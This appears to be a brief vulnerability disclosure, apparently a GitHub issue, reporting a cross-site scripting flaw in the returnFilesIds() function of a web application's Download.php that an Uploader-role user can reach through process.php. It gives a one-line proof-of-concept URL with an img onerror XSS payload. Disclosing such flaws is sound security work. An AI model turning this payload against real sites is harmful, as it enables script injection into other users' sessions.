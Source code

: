 # Description:
Because of lacking of sanitizer when echo output data in returnFilesIds() function in  `{webroot}/includes/Classes/Download.php` , the low privilege user (Uploader role) can call this function through process.php file and execute scripting code
![Image](https://i.imgur.com/AxlLTWC.png)

![Image](https://i.imgur.com/MwWzphp.png)
# PoC:
`{webroot}/process.php?do=return_files_ids&files[0][name]=x&files[0][value]=23"><img src=x onerror=alert(1);>`

![Image](https://i.imgur.com/qAuvkbk.png)
